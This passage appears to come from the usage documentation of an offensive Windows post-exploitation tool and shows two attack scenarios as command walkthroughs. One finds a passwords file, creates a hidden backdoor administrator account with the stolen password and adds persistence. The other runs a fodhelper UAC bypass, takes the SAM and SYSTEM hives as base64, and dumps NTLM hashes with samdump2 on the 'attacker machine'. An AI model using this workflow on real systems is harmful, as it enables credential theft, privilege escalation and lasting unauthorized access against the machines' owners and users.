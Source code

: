 
### Scenario 4: Sensitive File Credentials

```bash
# 1. Find sensitive files
priv_sensitive
# Finds: C:\Users\John\passwords.txt

# 2. Download and read file
# download C:\Users\John\passwords.txt
# File contains: Admin password: SuperSecret123

# 3. Create backdoor admin user
priv_user backdoor SuperSecret123
# Result: Backdoor administrator account created and hidden

# 4. Create persistence
priv_persist
# Result: Multiple persistence mechanisms created
```

---

### Scenario 5: Admin File Access - SAM Hash Extraction (New!)

```bash
# Complete workflow for extracting Windows password hashes

# 1. Check current privileges
priv_check
# Result: is_admin=false

# 2. Attempt to read SAM file (will fail)
priv_read_file C:\Windows\System32\config\SAM
# Result: Permission denied - suggests running priv_uac_bypass

# 3. List the config directory to see what's there
priv_list_dir C:\Windows\System32\config
# Result: Shows SAM, SYSTEM, SECURITY, SOFTWARE files

# 4. Attempt UAC bypass for elevation
priv_uac_bypass
# Result: UAC bypass executed with fodhelper.exe

# 5. Verify elevation
priv_check
# Result: is_admin=true, integrity_level="High (Admin)"

# 6. Now read the SAM file (contains password hashes)
priv_read_binary C:\Windows\System32\config\SAM
# Result: Base64-encoded SAM file

# 7. Read the SYSTEM file (needed to decrypt SAM)
priv_read_binary C:\Windows\System32\config\SYSTEM
# Result: Base64-encoded SYSTEM file

# 8. On attacker machine, decode and save both files:
echo "BASE64_SAM_CONTENT" | base64 -d > SAM
echo "BASE64_SYSTEM_CONTENT" | base64 -d > SYSTEM

# 9. Extract hashes with samdump2 or pwdump:
samdump2 SYSTEM SAM
# Result: NTLM password hashes for all users

```